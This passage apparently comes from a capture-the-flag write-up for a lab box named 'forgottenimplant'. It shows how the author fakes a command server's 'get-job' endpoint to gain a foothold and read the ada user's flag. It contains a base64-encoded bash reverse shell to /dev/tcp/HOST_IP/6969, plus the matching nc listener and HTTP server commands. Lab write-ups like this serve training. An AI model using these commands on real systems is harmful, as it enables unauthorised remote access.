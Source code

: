 <p align="center">
  <img src="/images/forgottenimplant/04-received-81.png" width="1000"/>
</p>

It seems like it is trying to get some command from the http server. Maybe we
can try to mock up some of the paths. For example, I would say the `get-job`
looks the easiest to do, and also sounds like a path you would access to *GET*
a command to run.

<p align="center">
  <img src="/images/forgottenimplant/05-send-payload.png" width="1000"/>
</p>

Basically I created a file with the name as the base64 string inside the
`get-job` folder.

```console
mkdir get-job
echo '{"job_id": 1, "cmd": "bash -c \"bash -i >& /dev/tcp/HOST_IP/6969 0>&1\""}' | base64 > get-job/ImxhdGVzdCI=
```

Then you would open a listener `nc -lvnp 6969` and start the http server `sudo
python -m http.server 81`. After some time you should have a revshell on the
target as the ada user.

And we find the flag in the home of the ada user.

**First Flag**: `cat /home/ada/user.txt`

<p align="center">
